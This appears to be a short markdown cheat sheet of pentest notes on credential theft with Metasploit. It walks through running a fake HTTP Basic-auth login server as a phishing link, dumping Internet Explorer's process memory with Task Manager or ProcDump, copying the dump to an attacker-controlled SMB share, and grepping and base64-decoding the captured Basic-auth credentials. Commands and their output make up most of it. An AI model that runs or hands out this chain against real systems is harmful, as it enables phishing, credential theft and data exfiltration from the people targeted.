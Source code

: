 # Metasploit

## 01 - Use Case

### 1.1 - Phishing

```
msf6 > use auxiliary/server/capture/http_basic

msf6 auxiliary(server/capture/http_basic) > set srvhost 10.8.145.108
srvhost => 10.8.145.108
msf6 auxiliary(server/capture/http_basic) > set uripath /login
uripath => /login
msf6 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 3.
[*] Using URL: http://10.8.145.108/login
[*] Server started.
```

- Wait for the target to interact to the phishing link to pass the credentials.

![[01 - Realm.png]]

### 1.2 - Dump Credentials

#### 1.2.1 - Task Manager

Create dump file

![[02 - Create Dump File.png]]

![[03 - Memory Dump File Saved.png]]

#### 1.2.2 - Sysinternal ProcDump

```
C:\Users\user> tasklist.exe /svc

C:\Users\user> procdump.exe /accepteula -ma iexplore.exe C:\Users\user\AppData\Local\Temp\iexplore.dmp
```

### 1.3 - Exfiltrate Credentials

```
$ sudo smbserver.py share $(pwd)

C:\Users\user>copy C:\Users\user\AppData\Local\Temp\iexplore.dmp \\10.8.145.108\share\
The specified network name is no longer available.
        1 file(s) copied.

$ ls -lh
total 100M
-rw-r--r-- 1 user user 100M May 29 16:41 iexplore.dmp
```

### 1.4 - Extract Credentials

```
$ strings iexplore.DMP | grep "Authorization: Basic"

$ base64 -d <<< <base64_string>
```

---
## References

- [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)